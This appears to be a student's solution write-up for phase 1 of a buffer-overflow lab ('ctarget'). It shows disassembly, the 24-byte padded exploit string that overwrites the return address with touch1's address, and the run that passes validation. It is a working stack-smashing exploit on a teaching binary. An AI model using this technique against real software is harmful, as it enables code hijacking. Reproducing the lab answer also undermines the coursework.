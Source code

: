 Phase 1
```c
objdump -d ctarget

```

```c
00000000004017dc <touch1>:
  4017dc:	48 83 ec 08          	sub    $0x8,%rsp
  4017e0:	c7 05 12 2d 20 00 01 	movl   $0x1,0x202d12(%rip)        # 6044fc <vlevel>
  4017e7:	00 00 00 
  4017ea:	bf 40 2f 40 00       	mov    $0x402f40,%edi
  4017ef:	e8 5c f4 ff ff       	callq  400c50 <puts@plt>
  4017f4:	bf 01 00 00 00       	mov    $0x1,%edi
  4017f9:	e8 fb 03 00 00       	callq  401bf9 <validate>
  4017fe:	bf 00 00 00 00       	mov    $0x0,%edi
  401803:	e8 e8 f5 ff ff       	callq  400df0 <exit@plt>

getbuf:
=> 0x00000000004017c6 <+0>:	sub    $0x18,%rsp <= 0x18 is 24 Bytes
   0x00000000004017ca <+4>:	mov    %rsp,%rdi
   0x00000000004017cd <+7>:	callq  0x401a0a <Gets>
   0x00000000004017d2 <+12>:	mov    $0x1,%eax
   0x00000000004017d7 <+17>:	add    $0x18,%rsp
   0x00000000004017db <+21>:	retq  

```
We then grab the address of touch1 from objdump -d ctarget address : 00000000004017dc and padd the answer with 24 bytes
```c
emacs phase1.txt
```
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
dc 17 40 00 00 00 00 00
```
Save the file with <kbd>CTRL</kbd>+<kbd>x</kbd> then <kbd>CTRL</kbd>+<kbd>c</kbd> then <kbd>y</kbd>
```
call ./hex2raw < phase1.txt > rawphase1.txt
```
```
call ./ctarget < rawphase1.txt
```
```
Cookie: 0x19195f9f
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
